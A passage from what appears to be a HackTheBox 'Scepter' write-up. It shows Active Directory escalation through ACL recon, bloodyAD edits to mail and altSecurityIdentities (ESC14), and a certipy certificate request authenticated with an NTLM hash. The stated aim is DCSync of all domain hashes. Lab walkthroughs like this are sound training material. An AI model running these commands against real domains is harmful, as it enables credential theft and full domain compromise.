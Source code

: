 This means that if we can compromise his account we can request replication of the DC which allows us to grab hashes for all the accounts including the Administrator.

So let's do some recon on `p.adams`' ACL.
```powershell
*Evil-WinRM* PS C:\Users\h.brown\Documents> Get-DomainObjectACL -Identity p.adams -domain scepter.htb -ResolveGUIDs

<SNIP>
AceQualifier           : AccessAllowed
ObjectDN               : CN=p.adams,OU=Helpdesk Enrollment Certificate,DC=scepter,DC=htb
ActiveDirectoryRights  : WriteProperty
ObjectAceType          : Alt-Security-Identities
ObjectSID              : S-1-5-21-74879546-916818434-740295365-1109
InheritanceFlags       : ContainerInherit
BinaryLength           : 72
AceType                : AccessAllowedObject
ObjectAceFlags         : ObjectAceTypePresent, InheritedObjectAceTypePresent
IsCallback             : False
PropagationFlags       : None
SecurityIdentifier     : S-1-5-21-74879546-916818434-740295365-1601
AccessMask             : 32
AuditFlags             : None
IsInherited            : True
AceFlags               : ContainerInherit, Inherited
InheritedObjectAceType : User
OpaqueLength           : 0
<SNIP>
```

We can see that we have `WriteProperty` over `p.adams`' Alt-Security-Identities.

We can read more about exploiting this here: [ESC14-altSecurityIdentities](https://swisskyrepo.github.io/InternalAllTheThings/active-directory/ad-adcs-esc/#esc14-altsecurityidentities)

In short we can essentially do `ESC14` with the added `altSecurityIdentity` alteration, since we've needed an `email` before, let's use that security identity.

To start off let's set `d.baker`'s email to `p.adams@scepter.htb`.
```bash
bloodyAD --host $TARGET -d scepter.htb -u a.carter -p P@ssword set object d.baker mail -v p.adams@scepter.htb

[+] d.baker`s mail has been updated
```

Next, let's set `p.adams` `altSecurityIdentity` to use that email.
```bash
KRB5CCNAME=h.brown.ccache bloodyAD --host dc01.scepter.htb --dc-ip $TARGET -d scepter.htb -k set object p.adams altSecurityIdentities -v "X509:<RFC822>p.adams@scepter.htb"

[+] p.adams`s altSecurityIdentities has been updated
```

Now let's request a `pfx` certificate for `d.baker`.
```bash
certipy req -username 'd.baker@scepter.htb' -hashes ':18b5fb0d99e7a475316213c15b6f22ce' -ca scepter-dc01-ca -template StaffAccessCertificate

Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Successfully requested certificate
[*] Request ID is 3
[*] Got certificate without identification
[*] Certificate has no object SID
[*] Saved certificate and private key to 'd.baker.pfx'
```
